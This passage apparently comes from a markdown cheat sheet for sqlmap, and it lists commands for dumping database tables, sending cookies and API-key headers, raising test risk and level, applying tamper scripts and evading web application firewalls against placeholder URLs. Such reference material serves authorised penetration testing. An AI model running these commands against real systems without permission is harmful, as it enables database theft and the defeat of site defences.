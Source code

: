 ### Dump Table Data
```bash
sqlmap -u <URL> -D <database> -T <table> --dump
```

## 🧰 Authentication

### Cookie Injection
```bash
sqlmap -u <URL> --cookie="SESSIONID=abc123"
```

### Auth with Headers
```bash
sqlmap -u <URL> --headers="X-API-Key: xyz"
```

## 🎯 Targeted Testing

### Specific Parameter
```bash
sqlmap -u <URL> -p id
```

### Risk and Level
```bash
sqlmap -u <URL> --risk=3 --level=5
```

- `--risk`: affects the risk of tests (1-3)
- `--level`: affects number of tests (1-5)


## 🪓 Bypasses and Tampering

### Use Tamper Script
```bash
sqlmap -u <URL> --tamper=charencode
```

### Random User-Agent
```bash
sqlmap -u <URL> --random-agent
```

## 🧱 WAF Evasion

```bash
sqlmap -u <URL> --tamper=between,charencode
```
